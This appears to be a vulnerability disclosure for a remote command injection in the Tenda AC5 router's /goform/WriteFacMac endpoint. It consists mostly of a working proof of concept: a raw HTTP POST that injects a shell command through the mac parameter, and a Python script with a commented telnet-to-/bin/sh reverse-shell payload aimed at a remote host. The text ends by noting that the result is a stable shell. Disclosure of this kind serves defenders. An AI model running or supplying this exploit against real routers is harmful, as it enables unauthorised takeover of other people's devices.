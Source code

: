 ## Basic Information

Vendor:Tenda (https://www.tenda.com.cn/default.html)

product:AC5(https://www.tenda.com.cn/product/AC5.html)

version:V15.03.06.28(https://www.tenda.com.cn/download/detail-2740.html) 

type:Arbitrary Remote Command Execution 

author:yanbushuan

## Vulnerability description and trigger location

I found an Arbitrary Command Execution vulnerability in the router's web server-- /bin/httpd of squashfs filesystem. While processing the mac parameters for a post request(when an attacker accesses ip/goform/WriteFacMac), the value is directly passed to doSystem, which causes a RCE. The details are shown below:

![image1](https://github.com/yanbushuang/CVE/blob/main/image-1.png)


![image2](https://github.com/yanbushuang/CVE/blob/main/image-2.png)

## POC(EXP):
```
### Burpsuite：

POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.0.1（You Tenda AC5 Router IP or remote ip）
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: password=You cookie
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
mac = ;command


### python request/pwn：

import requests
from pwn import*

ip = "192.168.211.128" #You Tenda AC5 Router IP or remote ip
url = "http://" + ip + "/goform/WriteFacMac"
print(url)


#payload = ";cmd"
#payload = ";telnet remote_ip remote_port1 | /bin/sh | telnet remote_ip remote_port2"

cookie = {"Cookie":"password=12345"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")

```

## Attack demonstration：

Use the above POC to play shell through telnet You can get a very stable shell 
